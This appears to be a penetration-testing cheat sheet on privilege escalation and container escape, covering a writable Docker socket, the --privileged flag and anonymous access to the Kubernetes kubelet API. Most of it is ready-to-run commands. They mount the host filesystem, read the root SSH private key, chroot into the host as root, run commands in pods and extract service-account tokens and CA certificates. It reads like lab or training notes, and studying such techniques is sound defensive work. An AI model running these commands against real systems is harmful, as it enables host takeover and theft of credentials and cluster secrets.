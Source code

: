 ```sh
docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
docker -H unix:///app/docker.sock ps
docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash

cat /hostsystem/root/.ssh/id_rsa
```

- Other way to privesc when the socket is writable  :

```sh
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```



- **--privileged` flag`**

The --privileged flag allows the container to have access to the host devices.

Well configured docker containers won't allow command like **fdisk -l**. However on miss-configured docker command where the flag --privileged is specified, it is possible to get the privileges to see the host drive.

So to take over the host machine, it is trivial:

```shell
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```
- Need to be root to be able to mount .
	**Bonus**: If you want to know the container id it's located in /etc/hostname of the docker container

**Kubernetes**
#Kubernetes
 
- Extracting Pods with anonymous access:
```sh
curl https://10.129.10.11:10250/pods -k | jq .
#or 
kubeletctl -i --server 10.129.10.11 pods
```
- Available command : 
```sh
 kubeletctl -i --server 10.129.10.11 scan rce
 #then get a root access
 kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
```

- Extracting Tokens : 

```sh
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```
- Extracting Certificate : 
```sh
kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```
